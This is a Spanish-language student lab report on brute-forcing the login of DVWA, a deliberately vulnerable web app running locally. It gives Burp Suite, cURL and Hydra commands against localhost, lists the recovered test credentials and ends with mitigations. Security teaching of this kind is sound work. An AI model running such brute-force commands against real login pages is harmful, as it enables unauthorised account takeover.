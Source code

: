 # Informe Laboratorio 2 – DVWA (Damn Vulnerable Web App)

**Autor:** Felipe Cuevas  
**Fecha:** Octubre 2025  
**Correo:** felipe.cuevas1@mail.udp.cl

---

## Descripción del laboratorio

En este laboratorio se realizaron pruebas de seguridad web sobre la aplicación vulnerable **DVWA**, específicamente sobre el módulo de **Brute Force**. Las herramientas empleadas fueron:

- Docker (para desplegar DVWA)  
- Burp Suite (proxy y ataque de fuerza bruta)  
- cURL (accesos válidos e inválidos)  
- Hydra (ataque de fuerza bruta automático)  
- Python (`requests`) para script de fuerza bruta  

Se obtuvieron resultados en forma de credenciales válidas, análisis de tráfico y comparación de herramientas.

---

## Contenido del repositorio

```

  ├─ levantamiento.png
  ├─ redireccion.png
  ├─ consultaproxy.png
  ├─ campos2.3.png
  ├─ prompt.png
  ├─ usuariosdiccionario.png
  ├─ passworddiccionario.png
  ├─ par1.png
  ├─ par1v2.png
  ├─ par1response.png
  ├─ par2.png
  ├─ par2v2.png
  ├─ par2response.png
  ├─ login.png
  ├─ php.png
  ├─ usodecurl.png
  ├─ welcome.png
  ├─ accesoinvalido.png
  ├─ lengthinvalido.png
  ├─ Lengthvalida.png
  ├─ hydracredencialn1.png
  ├─ gordonb.png
  ├─ hydracredencialn2.png
  └─ 1337.png

Docker-compose.yml  
usuarios.txt  
passwords.txt  
hydra_results.txt  
acceso_valido_low.txt  
acceso_invalido_low.txt  
script_bruteforce.py
```

---

## Procedimiento resumido

### 1. Despliegue de DVWA con Docker

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
sudo docker-compose up -d
sudo docker ps
```

- Contenedores: `db` (MySQL) y `dvwa` (Apache + PHP)  
- Acceso: [http://localhost:4280](http://localhost:4280)  

![Levantamiento de DVWA](levantamiento.png)

---

### 2. Obtención de consultas con Burp Suite

- Configuración de proxy y navegador  
- Captura de petición GET al formulario de login  
- Identificación de campos: `username` y `password`  
- Generación de diccionarios con IA  
- Ejecución de ataque Intruder → obtención de pares válidos:

| Usuario | Contraseña |
|---------|------------|
| 1337    | Charley    |
| pablo   | letmein    |

![Consulta proxy](consultaproxy.png)

---

### 3. Accesos válidos e inválidos con cURL

```bash
curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=letmein&Login=Login" > acceso_valido_low.txt

curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=pablito&Login=Login" > acceso_invalido_low.txt
```

Diferencias clave entre respuestas:

- Mensaje de autenticación  
- Imagen de perfil del usuario  
- Tamaño del contenido (Content-Length)  
- Inclusión del nombre de usuario en HTML  

![Acceso válido](Lengthvalida.png)  
![Acceso inválido](lengthinvalido.png)

---

**Nota importante:** en las pruebas con **Hydra**, **cURL** y **Python** se usó la cookie de sesión `PHPSESSID` de una sesión iniciada previamente en la página de login de DVWA (antes de llegar al formulario de ataque de fuerza bruta). **Es necesario reemplazar el valor de `PHPSESSID` (`<ID>`) en los comandos y scripts por el valor real obtenido desde el navegador** antes de ejecutar las pruebas.

---

### 4. Ataque de fuerza bruta con Hydra

```bash
hydra -L usuarios.txt -P passwords.txt localhost http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low;PHPSESSID=<ID>:F=Username and/or password incorrect" \
-V -s 4280 -o hydra_results.txt
```

Credenciales obtenidas:

| Usuario  | Contraseña |
|----------|------------|
| gordonb  | abc123     |
| 1337     | charley    |

![Hydra credenciales](hydracredencialn1.png)

---

### 5. Script de fuerza bruta en Python

- Librería: `requests`  
- Itera sobre listas de usuarios y contraseñas  
- Mantiene sesión con cabecera `Cookie`  
- Detecta respuestas válidas comparando contenido HTML  

**Comando para ejecutar el script (usar los archivos `usuarios.txt` y `passwords.txt`):**

```bash
python3 fuerzabruta.py usuarios.txt passwords.txt
```

### 6. Comparación de herramientas

| Herramienta | Ventajas | Desventajas |
|------------|----------|-------------|
| Burp Suite | Preciso, analiza tráfico, permite modificar peticiones | Lento en ataques masivos |
| cURL       | Rápido, control manual | Laborioso para pruebas múltiples |
| Hydra      | Muy rápido, ataques concurrentes | Detectable por WAF, menos control |
| Python     | Flexible, personalizable | Rendimiento intermedio |

---

## Métodos de mitigación de fuerza bruta

1. Limitación de intentos de login  
2. Captchas o validaciones humanas  
3. Bloqueo temporal de cuentas tras múltiples fallos  
4. Uso de autenticación multifactor (2FA)

---

## Referencias

- DVWA: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)  
- Burp Suite Community: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)  
- Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

